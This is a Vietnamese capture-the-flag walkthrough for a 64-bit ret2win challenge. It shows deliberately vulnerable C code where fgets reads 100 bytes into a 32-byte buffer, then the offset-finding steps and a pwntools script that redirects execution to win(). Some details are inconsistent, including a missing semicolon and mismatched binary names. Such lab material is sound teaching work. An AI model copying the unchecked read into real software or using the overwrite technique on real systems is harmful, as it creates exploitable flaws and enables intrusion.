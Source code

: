 # ret2win_chall_demo_file

## ret2win.c
```C
#include <stdio.h>
#include <string.h>
void win() {
    printf("\nWELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}\n");
}
void vulnerable() {
    char buffer[32];
    printf("Enter input: ");
   fgets(buffer, 100, stdin)
}
int main() {
    setbuf(stdout, NULL);
    printf("=== 64-bit RET2WIN CHALLENGE ===\n");
    vulnerable();
    printf("Try again!\n");
    return 0;
}
```

## Lỗ hổng nằm trong hàm `vulnerable`:
- Khai báo mảng `buffer` có kích thước 32 byte.
- Sử dụng hàm `fgets` để đọc dữ liệu từ người dùng, với tham số thứ hai là 100, nghĩa là sẽ đọc tối đa 100 byte (bao gồm cả ký tự null) vào `buffer`.
- Vấn đề: `buffer` chỉ có 32 byte, nhưng `fgets` cho phép đọc đến 100 byte. Điều này dẫn đến tràn bộ đệm (buffer overflow) nếu người dùng nhập nhiều hơn 31 ký tự.
- Hậu quả: Dữ liệu nhập vào vượt quá 32 byte sẽ ghi đè lên các vùng nhớ khác trên stack, bao gồm cả địa chỉ trở về (return address) của hàm `vulnerable`. Khi hàm `vulnerable` kết thúc, nó sẽ trả về địa chỉ mà chúng ta đã ghi đè, từ đó cho phép điều khiển luồng thực thi của chương trình.





## Kiểm tra bảo mật 
### Cài pwntools
```bash
pip install pwntools
```
### checksec file
```bash
checksec chall1
```

 **Mục đích: phân tích cơ chế bảo mật của file thực thi:**
- NX (No-execute): Ngăn chặn thực thi code trên stack
- Stack Canary: Phát hiện tràn bộ đệm
- PIE (Position Independent Executable): Random hóa địa chỉ → Cần tắt để sử dụng địa chỉ cố định

→ ret2win chỉ khả thi khi không có Stack Canary và PIE tắt.



## Tạo pattern 100 kí tự
```bash
cyclic 100
```
**Mục đích:**
- Tạo chuỗi nhập mẫu có cấu trúc đặc biệt (vd: aaaabaaacaaad...). Khi chương trình crash, giá trị RIP sẽ trỏ vào 1 phần của chuỗi này, giúp tính toán offset chính xác.


## Khi chương trình crash, kiểm tra giá trị RIP:
```bash
info registers rip
```
**Mục đích:**
- Lấy giá trị thanh ghi RIP (Instruction Pointer) khi crash. Ví dụ: 0x6161616161616166


## Tìm offset từ giá trị RIP:
```bash
cyclic -l <giá_trị_rip>
```
**Mục đích:**
- Xác định chính xác số byte cần nhập để ghi đè lên RIP.
Ví dụ: Output 40 → Cần 40 byte để kiểm soát RIP.

## Tìm địa chỉ hàm win
```bash
p & win
```


## Viết script (solve1.py)
```python
from pwn import *
exe = ELF("./chall1", checksec = False)
p = process('./chall_ret2win')

offset = 40                    #Độ dài offset

payload = b'A' * offset        #Tạo input gây BOF
payload += p64(exe.sym['win'])       #Ghi đè địa chỉ hàm win lên return address

p.sendline(payload)
p.interactive()
```
**Giải thích chi tiết:**

- b'A' * offset: Điền đầy buffer + padding → Chạm tới vị trí RIP

- p64(exe.sym['win']): Ghi đè RIP bằng địa chỉ hàm win() (đóng gói dạng 64-bit little-endian)

- Khi hàm vulnerable() return, thay vì quay về main(), nó nhảy vào win() → In flag


## Chạy script
```bash
  python3 solve1.py
```
**Kết quả khi thành công:**
```
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}
```
